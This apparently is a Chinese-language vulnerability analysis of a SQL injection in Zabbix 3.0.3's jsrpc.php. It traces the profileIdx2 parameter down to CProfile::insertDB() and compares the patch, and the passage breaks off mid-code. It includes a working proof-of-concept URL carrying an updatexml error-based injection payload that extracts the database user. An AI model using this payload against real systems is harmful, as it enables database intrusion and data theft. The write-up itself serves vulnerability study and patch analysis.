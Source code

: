 ```php
		CProfile::update($options['profileIdx'].'.period', $options['period'], PROFILE_TYPE_INT, $options['profileIdx2']);
			}
	......
}
```
发现`CProfile::update()`被调用，且`$options['profileIdx2']`为第4个参数，即形参`$idx2`。如果再`insertDB()`被调用时，`profileIdx2`参数被带进最终执行语句.   

返回到`jsrpc.php`中调用`CScreenBuilder::getScreen($data)`后的部分
```php
$screenBase = CScreenBuilder::getScreen($data);
if ($screenBase !== null) {
	$screen = $screenBase->get();

	if ($data['mode'] == SCREEN_MODE_JS) {
		$result = $screen;
	}
	else {
		if (is_object($screen)) {
			$result = $screen->toString();
		}
	}
}
```
`$screenBase`不能为null意味着必须设置`resourcetype`参数
要使参数提交结果返回，需要设置`mode`参数不为3或者不设置   

`jsrpc.php`末尾包含进`page_footer.php`，最终调用缺陷函数`CProfile::insertDB()`，`profileIdx2`参数被执行，产生注入.   

总结调用流程：
`$data = $_REQUEST   --->    CScreenBuilder::getScreen()   --->    CScreenBase::__construct()   --->    CScreenBase::calculateTime()   --->   CProfile::update()   --->   CScreenBase::get()   --->   require_once()   --->   CProfile::flush()   --->   CProfile::insertDB()   --->   CProfile::DBexecute()`   

PoC: 
```
.../zabbix/jsrpc.php?type=9&method=screen.get&profileIdx=1&updateProfile=1&mode=2&screenid=&groupid=&hostid=0&pageFile=1&action=showlatest&filter=&filter_task=&mark_color=1&resourcetype=16&profileIdx2=666+or+updatexml(1,concat(0x23,(select+user()),0x23),1)+or+1=1)%23
```

#### 4.2 补丁对比
zabbix 最新版3.0.4中，没有对`jsrpc.php`页面进行任何改动，仍然能传入任意参数。但是修复了`CProfile::insertDB()`的缺陷，增加了对`$idx2`的过滤。
```php
// zabbix 3.0.3 CProfile.php 277行
private static function insertDB($idx, $value, $type, $idx2) {
	$value_type = self::getFieldByType($type);
	$values = [
		'profileid' => get_dbid('profiles', 'profileid'),
		'userid' => self::$userDetails['userid'],
		'idx' => zbx_dbstr($idx),
		$value_type => zbx_dbstr($value),
		'type' => $type,
		//关键点，未进行过滤
		'idx2' => $idx2
	];
	......
}
```
```php
// zabbix 3.0.4 CProfile.php 277行
private static function insertDB($idx, $value, $type, $idx2) {
	$value_type = self::getFieldByType($type);
	$values = [
```
